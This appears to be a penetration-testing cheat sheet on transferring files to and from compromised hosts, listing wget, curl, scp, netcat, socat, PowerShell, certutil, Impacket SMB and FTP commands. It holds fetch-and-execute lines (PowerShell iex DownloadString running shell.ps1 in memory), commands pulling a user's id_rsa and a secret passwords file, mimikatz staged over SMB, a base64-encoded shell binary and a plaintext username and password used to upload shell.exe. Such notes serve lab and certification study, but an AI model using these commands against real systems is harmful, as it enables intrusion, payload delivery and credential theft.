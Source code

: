 # Transferring Files

## wget

```bash
python3 -m http.server 8000 # on kali machine
wget http://10.10.14.1:8000/linenum.sh # on target machine
```

## cURL

```bash
curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
curl -T '/home/kali/Documents/pg/Hutch/shell.exe' 'http://192.168.136.122/' -u fmcsorley:CrabSharkJellyfish192
```

## SCP

```bash
#upload
scp linenum.sh user@remotehost:/tmp/linenum.sh # with ssh user creds
# download
scp user@10.10.80.41:/home/user/id_rsa .
```

## Base64

```bash
lojique@htb[/htb]$ base64 shell -w 0
user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA...SNIO...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
```

## Netcat

```bash
# to receive a file
nc -nlvp 4444 > incoming.exe
# to transfer a file
nc -nv 10.11.0.22 4444 < /usr/share/windows-resources/binaries/wget.exe
```

## Socat

```bash
# to transfer
sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt
# to receive
socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create
```

## PowerShell

```powershell
# download a file
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"
iwr http://192.168.45.5/rubeus.exe -outfile rubeus.exe
iex(New-Object Net.WebClient).DownloadString('http://10.10.14.15/shell.ps1')
# loads file in memory and runs it
iex (iwr http://192.168.119.217/Sherlock.ps1 -UseBasicParsing)
```

## Powercat

```
# listener
sudo nc -lnvp 443 > receiving_powercat.ps1
# send a file
powercat -c 10.11.0.4 -p 443 -i C:\Users\Offsec\powercat.ps1
```

## Certutil

```
certutil.exe -urlcache -split -f http://<IP>/Sherlock.ps1 Sherlock,ps1
```

## Impacket SMB

```bash
# In directory with file
impacket-smbserver share . -smb2support

# From victim
\\10.10.10.10\share\mimikatz.exe 

copy \\10.10.10.10\share\mimikatz.exe 
```

## FTP

```
python -m pyftpdlib 21 <ATTACKER IP>
ftp 10.10.10.10
```

## Evil-WinRM

```
upload
download
```
